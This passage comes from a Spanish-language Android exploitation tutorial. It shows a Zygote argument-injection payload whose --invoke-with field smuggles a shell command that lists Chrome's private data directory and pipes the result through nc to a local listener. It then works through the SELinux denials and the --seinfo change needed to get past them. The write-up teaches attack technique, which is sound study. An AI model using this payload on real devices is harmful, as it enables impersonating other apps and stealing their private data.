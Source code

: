 ```





8
--setuid=10128
--setgid=10128
--runtime-args
--seinfo=platform:privapp:targetSdkVersion=30:complete
--runtime-flags=1
--nice-name=zYg0te
--invoke-with
echo "$(id; cd /data/data/com.android.chrome ; pwd; ls -al)" | nc 127.0.0.1 31337 ; #
,,,,X
```
&nbsp;
Si hacemos el proceso de explotación correctamente, la salida del comando se verá así:

```bash
$ adb shell nc -l -p 31337 
uid=10128(u0_a128) gid=10128(u0_a128) groups=10128(u0_a128),1065(reserved_disk),3009(readproc) context=u:r:platform_app:s0:c512,c768
/
$
```
&nbsp;
Se muestra la salida de `id`, pero `pwd` muestra el directorio raíz (`/`) y no hay salida para `ls -al`. Hmm...

Si filtramos `logcat` con el nombre de la aplicación vemos esto:

```bash
generic_x86_arm:/ $ logcat | grep com.android.chrome
.... mucha información
.... mucha información
.... mucha información
.... mucha información...
04-17 17:07:52.452 13649 13649 W sh      : type=1400 audit(0.0:2616): avc: denied { search } for name="com.android.chrome" dev="dm-5" ino=123242 scontext=u:r:platform_app:s0:c512,c768 tcontext=u:object_r:app_data_file:s0:c128,c256,c512,c768 tclass=dir permissive=0 app=com.android.chrome
04-17 17:07:52.452 13649 13649 W sh      : type=1400 audit(0.0:2617): avc: denied { read } for name="/" dev="dm-4" ino=2 scontext=u:r:platform_app:s0:c512,c768 tcontext=u:object_r:rootfs:s0 tclass=dir permissive=0 app=com.android.chrome
^C
130|generic_x86_arm:/ $ 
```
&nbsp;
Lo que vemos aquí son un par de _denegaciones_ de SELinux a lo que parecen ser dos _acciones_: `search` y `read`.

Si el problema es con SELinux, recordemos que dentro de nuestra _payload_ hay un argumento que lidia con eso. Cuando pudimos ver los comandos de Zygote con `strace`, capturamos uno de Chrome. Si revisamos ese comando podemos ver que ese argumento tiene un valor diferente al que tenemos en nuestra _payload_:
**`--seinfo=default:targetSdkVersion=30:complete`**

